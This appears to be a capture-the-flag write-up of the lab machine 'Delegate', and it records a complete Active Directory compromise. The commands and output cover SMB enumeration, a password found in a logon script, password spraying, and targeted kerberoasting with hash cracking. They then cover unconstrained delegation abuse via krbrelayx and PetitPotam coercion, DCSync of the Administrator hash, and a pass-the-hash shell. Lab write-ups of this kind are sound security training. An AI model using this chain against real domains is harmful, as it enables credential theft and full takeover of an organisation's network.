

# Delegate
## Hosts file
```python
sudo nxc smb 10.129.234.69 --generate-hosts-file /etc/hosts 
[sudo] password for kali: 
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```
This has generated me a record in /etc/hosts that allows me to reference the domain name as well as the domain controllers name

## Enumeration
### Open ports
```python
nmap -p- --min-rate=3000 delegate.vl                          
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-04 17:14 +0000
Nmap scan report for delegate.vl (10.129.234.69)
Host is up (0.013s latency).
rDNS record for 10.129.234.69: DC1.delegate.vl
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
52353/tcp open  unknown
56720/tcp open  unknown
58045/tcp open  unknown
58046/tcp open  unknown
58051/tcp open  unknown
59332/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 65.90 seconds
```
### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389 -A --min-rate=3000 delegate.vl
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-04 17:17 +0000
Nmap scan report for delegate.vl (10.129.234.69)
Host is up (0.014s latency).
rDNS record for 10.129.234.69: DC1.delegate.vl

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus

88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-04 17:17:56Z)

135/tcp  open  msrpc         Microsoft Windows RPC

139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)

445/tcp  open  microsoft-ds?

464/tcp  open  kpasswd5?

593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

636/tcp  open  tcpwrapped

3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)

3269/tcp open  tcpwrapped

3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-04T17:18:02+00:00
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2026-03-03T17:12:03
|_Not valid after:  2026-09-02T17:12:03
|_ssl-date: 2026-03-04T17:18:43+00:00; -1s from scanner time.

5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

9389/tcp open  mc-nmf        .NET Message Framing

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
I cannot access shares or enumerate users and groups with null authentication
Now ill try Guest/anonymous logon
### Guest access
#### Shares
```python
nxc smb DC1.delegate.vl -u 'Guest' -p '' --shares
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.69   445    DC1              [+] delegate.vl\Guest: 
SMB         10.129.234.69   445    DC1              [*] Enumerated shares
SMB         10.129.234.69   445    DC1              Share           Permissions     Remark
SMB         10.129.234.69   445    DC1              -----           -----------     ------
SMB         10.129.234.69   445    DC1              ADMIN$                          Remote Admin
SMB         10.129.234.69   445    DC1              C$                              Default share
SMB         10.129.234.69   445    DC1              IPC$            READ            Remote IPC
SMB         10.129.234.69   445    DC1              NETLOGON        READ            Logon server share 
SMB         10.129.234.69   445    DC1              SYSVOL          READ            Logon server share
```
Its worth noting that all of these shares are default, might be worth running Get-GPPPassword.py from impacket to look for group policy passwords

Get-GPPPassword did not find anything!
#### Users
```python
nxc smb DC1.delegate.vl -u 'Guest' -p '' --rid-brute
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.69   445    DC1              [+] delegate.vl\Guest: 
SMB         10.129.234.69   445    DC1              498: DELEGATE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.69   445    DC1              500: DELEGATE\Administrator (SidTypeUser)
SMB         10.129.234.69   445    DC1              501: DELEGATE\Guest (SidTypeUser)
SMB         10.129.234.69   445    DC1              502: DELEGATE\krbtgt (SidTypeUser)
SMB         10.129.234.69   445    DC1              512: DELEGATE\Domain Admins (SidTypeGroup)
SMB         10.129.234.69   445    DC1              513: DELEGATE\Domain Users (SidTypeGroup)
SMB         10.129.234.69   445    DC1              514: DELEGATE\Domain Guests (SidTypeGroup)
SMB         10.129.234.69   445    DC1              515: DELEGATE\Domain Computers (SidTypeGroup)
SMB         10.129.234.69   445    DC1              516: DELEGATE\Domain Controllers (SidTypeGroup)
SMB         10.129.234.69   445    DC1              517: DELEGATE\Cert Publishers (SidTypeAlias)
SMB         10.129.234.69   445    DC1              518: DELEGATE\Schema Admins (SidTypeGroup)
SMB         10.129.234.69   445    DC1              519: DELEGATE\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.69   445    DC1              520: DELEGATE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.69   445    DC1              521: DELEGATE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.69   445    DC1              522: DELEGATE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.69   445    DC1              525: DELEGATE\Protected Users (SidTypeGroup)
SMB         10.129.234.69   445    DC1              526: DELEGATE\Key Admins (SidTypeGroup)
SMB         10.129.234.69   445    DC1              527: DELEGATE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.69   445    DC1              553: DELEGATE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.69   445    DC1              571: DELEGATE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.69   445    DC1              572: DELEGATE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.69   445    DC1              1000: DELEGATE\DC1$ (SidTypeUser)
SMB         10.129.234.69   445    DC1              1101: DELEGATE\DnsAdmins (SidTypeAlias)
SMB         10.129.234.69   445    DC1              1102: DELEGATE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.69   445    DC1              1104: DELEGATE\A.Briggs (SidTypeUser)
SMB         10.129.234.69   445    DC1              1105: DELEGATE\b.Brown (SidTypeUser)
SMB         10.129.234.69   445    DC1              1106: DELEGATE\R.Cooper (SidTypeUser)
SMB         10.129.234.69   445    DC1              1107: DELEGATE\J.Roberts (SidTypeUser)
SMB         10.129.234.69   445    DC1              1108: DELEGATE\N.Thompson (SidTypeUser)
SMB         10.129.234.69   445    DC1              1121: DELEGATE\delegation admins (SidTypeGroup)
```
Using the cut command i was able to make a user list
I can use this to try some as-rep roasting
AS-REP roasting failed
### NETLOGON share
```python
smbclient \\\\DC1.delegate.vl\\NETLOGON -U 'Guest'%''
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 26 13:45:24 2023
  ..                                  D        0  Sat Aug 26 10:45:45 2023
  users.bat                           A      159  Sat Aug 26 13:54:29 2023

		4652287 blocks of size 4096. 1164609 blocks available
smb: \> get users.bat
getting file \users.bat of size 159 as users.bat (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \>
```
Found a `users.bat` batch file
#### File contents of `users.bat`
```python
cat users.bat 
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```
Found a password and also a user but this password may not be for that, ill run a password spray using this password
## Password spray
```python
nxc ldap DC1.delegate.vl -u users.txt -p 'P4ssw0rd1#123' --continue-on-success
LDAP        10.129.234.69   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\Administrator:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\Guest:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\krbtgt:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\DC1$:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\b.Brown:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\R.Cooper:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\J.Roberts:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [-] delegate.vl\N.Thompson:P4ssw0rd1#123
```
Ive compromised the user `a.briggs`

```python
a.briggs:P4ssw0rd1#123
```
Ill check her access on SMB
This user has the same access  as the Guest account on SMB
Its also worth noting that there is no creds stored in user descriptions
The user does have access over RDP or WINRM

## Bloodhound

The user `a.briggs` has `GenericWrite` over `n.thompson`
I can perform a targeted kerberoast attack
## Targeted kerberoast
```python
bloodyAD --host DC1.delegate.vl -d delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' set object n.thompson servicePrincipalName -v 'service/hacked'
[+] n.thompson's servicePrincipalName has been updated
```
This updated the users SPN

```python
nxc ldap DC1.delegate.vl -u a.briggs -p 'P4ssw0rd1#123' --kerberoasting kerb.hash                     
LDAP        10.129.234.69   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.234.69   389    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [*] Skipping disabled account: krbtgt
LDAP        10.129.234.69   389    DC1              [*] Total of records returned 1
LDAP        10.129.234.69   389    DC1              [*] sAMAccountName: N.Thompson, memberOf: ['CN=delegation admins,CN=Users,DC=delegate,DC=vl', 'CN=Remote Management Users,CN=Builtin,DC=delegate,DC=vl'], pwdLastSet: 2023-09-09 16:17:16.247262, lastLogon: 2023-09-16 08:18:20.238500
LDAP        10.129.234.69   389    DC1              $krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl\N.Thompson*$7593efad809dd89c343d1afad1d1de34$6ecab3c493611f6ef32ff1dfc738d75f865324940ab53b261a93818307ff3602fbaaa77846aced852a9bee67608a9c59292088d22eb9b33d8ed1b9586f1ba1b88f31f83b9d5694519a5e2c8fb10d778ba4763a243e86c27227971d12ebdd95dc7ac86e30422f0df8d88b83507cb372fb6f553390b3205cecef078391ff3975288eee654d4842e716d150ccb472c3e7508bf2fcf501d556df67ad4fe07c1e2cc92f420d0571d529052fe614cfc0eed95b22b070b7c36317cb9f3df6013af92fbef0467212c97aca3c1649b026c5c166791bdd233ae5325b067553a7f1d36527842765ae1d7c75de12d21caa8eae249a12294af216416860ba8bf64995353a663e0240b7eb86b9c9fc12537a7719a942a6dc25ac050893d631dc057f4f175d880a25962a94d25d30a6dd08d11a982ac763d23bfa887d6ec7b9a3acfc7774ec429d1e71f32f08bc40c91f62628f706e8a1ce709dccab02d861a483394733aac5d16d2575fa1712b775a4d14c290d37c871d1da49ae12c5076e6ede8f5fb21d573a06ec61bb65c0ce2880a6df51f01f62a23d42d8747a6f23f1d4f0c3ad3a2c0ff1a85b62ab0bf3ba5ed228998403b530ede43e1a9d43094de40dfb280b37c344a6e1cde031c0f6ebcba5fa6787a916d2aed75e9067d6bde220652a42e7f03dad79983a223bd819c7c34c0acd9027f9d8ff88b5958fb998edbdc6d84c78c480ba05d4fa102cbef79c6cd6112caf3f9a514c8b13bd88b7ce83e27ef8318fb013b0631205acb88ccb96885591c8562fbe7987c75f5b56b66272de7e9810cb69bf7761b02cd7b5aa2869f8f46ae26e4d96cee3352309642550aeb4497d53c8a20092b1569e09bf0dc72c86e4ca6f03b7325d2bfafaa37cc28434e4431b311ec5d0fd875e4483c8aab45d5d7a6973cf300d00f2af8dcbe280d8217334bd18c571307011f63d5f0f1126448c800692f2e937597fc4381ad3f81e9f1d5e1613d5a4954be866391399cf753411df3d621849a76d2fb17a8fc669ba528441757b43bda2cc3b2b4c979a79d1541ec6da80c8b888d24e393153e89d008298ecf60db051ef5c3fcc9440a79af02ef937af31ec488d0609465401a6a8c87398b00996a463b1dba9d2e64c673377f3c1d0e8a15cfad73197fff5e5fb7b8a05b560e56c34233b70755cbfe03c84c392bbd702a131b8b6126e2a5c8a4da627a9eed36da574bb5a13cc839ab1f1c4c7a34028988b2ab3219dbda687b8cc12fc591b431b2c4754ddfbaf42f7a33f43775115e068fab51884cadf1ea40f2343388fecd61616be13a30b3bec14d4cc79bff3a6af20b7acf1ca7e4d78f064444ad0db28ef6fbd8eda911d2d804e241f04bae8f705ca422a6096e365c99fce8096e2c7d9fc5c7bd2ca821c46d2a91772bbccf236ba74126907eca9b3d468d4af16c6a735c007e2bfaa205d3d603bfe9ef
```
Here is the users hash, ill attempt to crack it. If i cant crack it ill have to try shadows creds instead

### Cracking the hash
```python
hashcat kerb.hash /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl\N.Thompson*$7593efad809dd89c343d1afad1d1de34$6ecab3c493611f6ef32ff1dfc738d75f865324940ab53b261a93818307ff3602fbaaa77846aced852a9bee67608a9c59292088d22eb9b33d8ed1b9586f1ba1b88f31f83b9d5694519a5e2c8fb10d778ba4763a243e86c27227971d12ebdd95dc7ac86e30422f0df8d88b83507cb372fb6f553390b3205cecef078391ff3975288eee654d4842e716d150ccb472c3e7508bf2fcf501d556df67ad4fe07c1e2cc92f420d0571d529052fe614cfc0eed95b22b070b7c36317cb9f3df6013af92fbef0467212c97aca3c1649b026c5c166791bdd233ae5325b067553a7f1d36527842765ae1d7c75de12d21caa8eae249a12294af216416860ba8bf64995353a663e0240b7eb86b9c9fc12537a7719a942a6dc25ac050893d631dc057f4f175d880a25962a94d25d30a6dd08d11a982ac763d23bfa887d6ec7b9a3acfc7774ec429d1e71f32f08bc40c91f62628f706e8a1ce709dccab02d861a483394733aac5d16d2575fa1712b775a4d14c290d37c871d1da49ae12c5076e6ede8f5fb21d573a06ec61bb65c0ce2880a6df51f01f62a23d42d8747a6f23f1d4f0c3ad3a2c0ff1a85b62ab0bf3ba5ed228998403b530ede43e1a9d43094de40dfb280b37c344a6e1cde031c0f6ebcba5fa6787a916d2aed75e9067d6bde220652a42e7f03dad79983a223bd819c7c34c0acd9027f9d8ff88b5958fb998edbdc6d84c78c480ba05d4fa102cbef79c6cd6112caf3f9a514c8b13bd88b7ce83e27ef8318fb013b0631205acb88ccb96885591c8562fbe7987c75f5b56b66272de7e9810cb69bf7761b02cd7b5aa2869f8f46ae26e4d96cee3352309642550aeb4497d53c8a20092b1569e09bf0dc72c86e4ca6f03b7325d2bfafaa37cc28434e4431b311ec5d0fd875e4483c8aab45d5d7a6973cf300d00f2af8dcbe280d8217334bd18c571307011f63d5f0f1126448c800692f2e937597fc4381ad3f81e9f1d5e1613d5a4954be866391399cf753411df3d621849a76d2fb17a8fc669ba528441757b43bda2cc3b2b4c979a79d1541ec6da80c8b888d24e393153e89d008298ecf60db051ef5c3fcc9440a79af02ef937af31ec488d0609465401a6a8c87398b00996a463b1dba9d2e64c673377f3c1d0e8a15cfad73197fff5e5fb7b8a05b560e56c34233b70755cbfe03c84c392bbd702a131b8b6126e2a5c8a4da627a9eed36da574bb5a13cc839ab1f1c4c7a34028988b2ab3219dbda687b8cc12fc591b431b2c4754ddfbaf42f7a33f43775115e068fab51884cadf1ea40f2343388fecd61616be13a30b3bec14d4cc79bff3a6af20b7acf1ca7e4d78f064444ad0db28ef6fbd8eda911d2d804e241f04bae8f705ca422a6096e365c99fce8096e2c7d9fc5c7bd2ca821c46d2a91772bbccf236ba74126907eca9b3d468d4af16c6a735c007e2bfaa205d3d603bfe9ef:KALEB_2341
```
Now i can verify these creds

### Verifying access as `n.thompson`
```python
nxc ldap DC1.delegate.vl -u n.thompson -p 'KALEB_2341'                   
LDAP        10.129.234.69   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.234.69   389    DC1              [+] delegate.vl\n.thompson:KALEB_2341
```
This user is now compromised

## Bloodhound on `n.thompson`

This user is not only part of the remote management users group, but is also part of delegation admins

## `SeEnableDelegationPrivilege`
```python
*Evil-WinRM* PS C:\Users\N.Thompson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

## Unconstrained delegation
```python
findDelegation.py "delegate.vl"/"n.thompson":'KALEB_2341'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType  DelegationType  DelegationRightsTo  SPN Exists 
-----------  -----------  --------------  ------------------  ----------
DC1$         Computer     Unconstrained   N/A                 Yes        
```
I will need to create a machine account for this since i do not know the password of the `DC1$` machine account

### Creating machine account
```python
addcomputer.py -computer-name DMUHACKERS -computer-pass 'Ethan-hacked-you69' -dc-ip 10.129.1.240 delegate.vl/n.thompson:'KALEB_2341'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account DMUHACKERS$ with password Ethan-hacked-you69.
```
This has added the account ill use for unconstrained delegation

### Adding DNS record
```python
python3 dnstool.py -u 'delegate.vl\DMUHACKERS$' -p 'Ethan-hacked-you69' --action add --record dmuhackers.delegate.vl --data 10.10.14.69 --type A -dns-ip 10.129.1.240 DC1.delegate.vl
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
This added the DNS record

### Adding the SPN 
```python
python3 addspn.py -u 'delegate.vl\n.thompson' -p 'KALEB_2341' -s 'cifs/dmuhackers.delegate.vl' -t 'DMUHACKERS$' -dc-ip 10.129.1.240 DC1.delegate.vl --additional
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```
This updates the SPN

### Setting up the delegation
```python
bloodyAD -d delegate.vl -u n.thompson -p 'KALEB_2341' --host DC1.delegate.vl add uac 'DMUHACKERS$' -f TRUSTED_FOR_DELEGATION
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to DMUHACKERS$'s userAccountControl
```
This has added the delegation to the account `DMUHACKERS$`

### Getting NTLM hash for machine account
```python
python -c "password = 'Ethan-hacked-you69'; import hashlib; print(hashlib.new('md4', password.encode('utf-16le')).hexdigest())"
7bfc7e58fe3b69ceaa1a9186fe5ef8c1
```
In order to setup the relay i need to get the NTLM hash for the password i setup, now i can start the listener

### Setting up `krbrelayx` 
```python
python3 krbrelayx.py -hashes :7bfc7e58fe3b69ceaa1a9186fe5ef8c1 --interface-ip 10.10.14.69     
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
```
This set the listener

### Triggering coersion 
```python
nxc smb DC1.delegate.vl -u DMUHACKERS$ -p 'Ethan-hacked-you69' -M coerce_plus -o LISTENER=dmuhackers.delegate.vl METHOD=PetitPotam
SMB         10.129.1.240    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.1.240    445    DC1              [+] delegate.vl\DMUHACKERS$:Ethan-hacked-you69 
COERCE_PLUS 10.129.1.240    445    DC1              VULNERABLE, PetitPotam
COERCE_PLUS 10.129.1.240    445    DC1              Exploit Success, efsrpc\EfsRpcAddUsersToFile
```
This has triggered the connection back to me:

### Retrieving ticket
```python
[*] SMBD: Received connection from 10.129.1.240
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
[*] SMBD: Received connection from 10.129.1.240
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```
Now i have the ticket

### DCSync
```python
secretsdump.py -k -no-pass -just-dc-ntlm -just-dc-user Administrator 'DC1$@dc1.delegate.vl'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
[*] Cleaning up...
```
I now have the administrator hash

### Evil-winrm session as the domain admin
```python
evil-winrm -i DC1.delegate.vl -u Administrator -H 'c32198ceab4cc695e65045562aa3ee93'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||deb5f9a8783ee112a6381a724018da9e||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain compromise!
